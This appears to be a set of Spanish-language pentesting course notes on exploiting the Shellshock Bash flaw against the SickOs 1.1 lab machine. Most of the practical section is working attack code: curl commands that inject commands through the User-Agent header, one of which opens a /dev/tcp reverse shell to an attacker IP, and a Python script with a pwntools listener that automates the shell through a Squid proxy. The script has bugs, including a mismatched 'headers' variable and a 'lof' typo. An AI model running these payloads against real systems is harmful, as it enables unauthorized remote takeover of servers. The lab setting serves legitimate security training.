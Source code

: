 # Ataque ShellShock

Tags: #ShellShock #OWASP #Explotacion 

Un ataque **Shellshock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos Bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática.

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.

La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Los atacantes pueden explotar esta vulnerabilidad a través de diferentes vectores de ataque. Uno de ellos es a través del **User-Agent**, que es la información que el navegador web envía al servidor web para identificar el tipo de navegador y sistema operativo que se está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

A continuación se proporciona el enlace directo para la descarga de la máquina ‘**SickOs 1.1**‘. Esta máquina corresponde a la misma que estuvimos enumerando en la clase anterior, solo que en este caso procederemos con la fase de explotación haciendo uso de esta técnica:

-   **SickOs 1.1**: [https://www.vulnhub.com/entry/sickos-11,132/](https://www.vulnhub.com/entry/sickos-11,132/)


## Comandos

Si encontramos un dir llamado **/cgi-bin/** lo mas probables es que podamos testear un ShellShock. 
En esos directorios debemos de buscar archivos **pl, sh, cgi,** asi como tambien sin extension. 

* [ShellShock-Attack](https://blog.cloudflare.com/inside-shellshock/)

```bash 
curl -s http://<IP>/cgi-bin/file -H "User-Agent: () { :; }; /usr/bin/whoami" 

	# s = Silence 
	# H = Cabecera para el ataque de ShellShock
	# Ruta absoluta del comando que quieres ejecutar y lo ves con 'which' -> which whoami


# Si al momento de ejecutar el comando anterior no nos reporta el comando, debemos de colocar un echo antes o hasta dos antes.
curl -s http://<IP>/cgi-bin/file -H "User-Agent: () { :; }; echo; /usr/bin/id" 

	# Podemos colocar la ruta de cualquier comando, esperando a que la maquina tenga ese comando instalado. 


# Podemos usar el ShellShock para ganar acceso a la maquina.
curl -s http://<IP>/cgi-bin/file -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'" 

	# Otra ruta del bash por si no funciona es '/usr/bin/bash' 
```


Haremos que al momento de ejecutar el programa, podamos tener una ReverShell al instante en nuestra consola.
```python
# Primero nos debemos crear un archivo python 

❯ nvim ShellShock.py

#!/usr/bin/python3

import requests
import signal
import sys
import threading 
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.68.1:3128'}
lport = 443

def shellshock_attack():
	header = {'User-Agent': "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'"}
	r = requests.get(main_url, headers=headers, proxies=squid_proxy)

if __name__ == '__main__':
	try:
		threading.Thread(target=shellshock_attack, args=()).start()
	except Exception as e:
		log.error(str(e))
	
	shell = listen(lport, timeout=20).wait_for_connection()
	
	if shell.sock is None:
		lof.failure("No se pudo establecer la conexion")
		sys.exit(1)
	else: 
		shell.interactive()
```